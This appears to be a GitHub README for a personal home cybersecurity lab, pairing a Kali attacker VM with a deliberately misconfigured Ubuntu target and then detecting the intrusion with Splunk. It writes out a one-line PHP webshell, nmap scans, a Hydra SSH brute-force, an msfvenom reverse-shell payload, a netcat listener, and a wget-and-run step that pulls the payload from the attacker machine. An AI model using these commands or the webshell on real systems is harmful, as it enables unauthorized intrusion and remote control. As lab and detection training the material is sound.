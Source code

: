 # Home Cybersecurity Lab – Kali + Vulnerable Ubuntu VM

Welcome to my home lab — a virtual environment built to simulate real-world cybersecurity scenarios using **Kali Linux** as the attacker machine and a misconfigured **Ubuntu VM** as the target. This project demonstrates vulnerability exploitation, monitoring, and detection using tools like **Hydra**, and **Splunk**.

>  This is a personal showcase project to demonstrate hands-on cybersecurity skills.  
>  Built entirely with VirtualBox and open-source tools.

---

## Lab Goals

- Create a vulnerable target system from scratch
- Perform attacks using Kali Linux
- Monitor logs and detect malicious activity

---

## Lab Setup

### Machines Used:

| Role      | OS           | Purpose                 |
|-----------|--------------|-------------------------|
| Attacker  | Kali Linux   | Penetration testing     |
| Victim    | Ubuntu 22.04 | Deliberately misconfigured |

### Virtualization:

- Software: [VirtualBox](https://www.virtualbox.org/)
- Network: Host-only Adapter (192.168.56.0/24)
- SSH/FTP ports exposed locally for testing

---

## Vulnerabilities Introduced

On the **Ubuntu VM**, I manually created misconfigurations:

1. **Weak credentials**
   - User: `testuser`
   - Password: `password`

2. **Insecure SSH config**
   - Password auth enabled
   - Root login allowed

3. **Open & misconfigured FTP server**
   - Anonymous access
   - No encryption

4. **PHP Webshell Backdoor**
   ```php
   <?php system($_GET['cmd']); ?>

**1. Nmap scan**
 ```python
   nmap -sn 192.168.56.0/24
   nmap -sC -sV -p- -oN fullscan.txt <Ubuntu_IP>
```
**2. Brute-Force SSH**
 ```python
   hydra -l john -P /usr/share/wordlists/rockyou.txt ssh://<Ubuntu_IP>
   ssh testuser@<Ubuntu_IP>
 ```
**3. Generate Payload on Kali**
  ```python
   msfvenom -p linux/x64/shell_reverse_tcp LHOST=<Kali_IP> LPORT=4444 -f elf -o file.elf
  ```
**3. Transfering Payload to Victim**
  
  set up a listener first:
  ```python
   nc -lvnp 4444
  ```
  Serve HTTP:
  ```python
  python3 -m http.server 8080
  ```
  on Ubuntu run:
 ```python
  wget http://<Kali_IP>:8080/file.elf
  chmod +x file.elf
  ./file.elf
 ```
5. **Detection with Splunk**
    1. Installed Splunk on Ubuntu:
   ```python
    wget -O splunk.deb https://download.splunk.com/products/splunk/releases/9.2.1/linux/splunk-9.2.1-<build>.deb
    sudo dpkg -i splunk.deb
    sudo /opt/splunk/bin/splunk start --accept-license
    sudo /opt/splunk/bin/splunk enable boot-start
   ```
    2. Log Sources:

    Monitored /var/log/auth.log, /var/log/apache2/access.log, and /var/log/syslog

**Searches**:

    index=_internal OR index=main

    "Failed password"

    "Accepted password"

    source="/var/log/auth.log"

    host="ubuntu-victim"

**What I Learned**

* How to safely simulate and exploit common vulnerabilities

* How to use tools like Nmap, Hydra and msfvenom

* How attackers leave traces in system logs

* How to use Splunk to detect unauthorized access

* How to document and present cybersecurity projects professionally

**Next Steps**


* Add more vulnerable services (e.g., MySQL, Redis)

* Try privilege escalation post-exploitation

* Automate some attacks with scripts

* Connect Splunk to a SIEM pipeline 



**Want to collab or ask questions?**

* [LinkedIn](https://www.linkedin.com/in/klaudija-balsyte-60b386251/)

* [Github](https://github.com/shoganaiix)
